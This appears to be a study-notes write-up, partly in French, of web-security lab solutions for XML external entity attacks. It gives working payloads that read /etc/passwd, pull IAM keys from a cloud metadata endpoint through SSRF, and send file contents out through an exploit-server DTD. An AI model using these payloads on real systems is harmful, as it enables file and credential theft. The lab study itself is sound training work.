

```
Lab: Exploiting XXE using external entities to retrieve files

APPRENTICE

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file. 
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

---
```
Lab: Exploiting XXE to perform SSRF attacks

APPRENTICE

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY test SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'> ]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

---
```
Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

PRACTITIONER

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file. 
```
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aea00d00304297d81166aa9014300bb.exploit-server.net/exploit"> %xxe;]>
<stockcheck><productid>2</productid><storeid>1</storeid></stockcheck>
```
```
<!ENTITY % payload SYSTEM "file:///etc/hostname">

<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "https://exploit-0aea00d00304297d81166aa9014300bb.exploit-server.net/x=%payload;">'>

%param1;
%external;
```
---
```
Lab: Exploiting blind XXE to retrieve data via error messages

PRACTITIONER

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 
```
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aaa00a203042dc88106655c014a007c.exploit-server.net/exploit"> %xxe;]>
<stockcheck><productid>2</productid><storeid>1</storeid></stockcheck>
```
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
---
```
Lab: Exploiting XInclude to retrieve files

PRACTITIONER

This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.

Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack.

To solve the lab, inject an XInclude statement to retrieve the contents of the /etc/passwd file. 
```
```xml
%3Cfoo%20xmlns:xi=%22http://www.w3.org/2001/XInclude%22%3E%0A%3Cxi:include%20parse=%22text%22%20href=%22file:///etc/passwd%22/%3E%3C/foo%3E
```
---
```
Lab: Exploiting XXE via image file upload

PRACTITIONER

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 
```
- upload xxe.svg
- The content of /et/hostname will be in stocked in the svg.

---
```
Lab: Exploiting XXE to retrieve data by repurposing a local DTD

EXPERT

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it. 
```

Objective: Read and submit the contents of the file /etc/hostname. 

# Observations :

https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md

On obtient la liste des dtd locaux présent sur le système :


> DTD File: /usr/share/xml/fontconfig/fonts.dtd

> Injectable entity: %constant

> XXE Payload:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % constant 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>

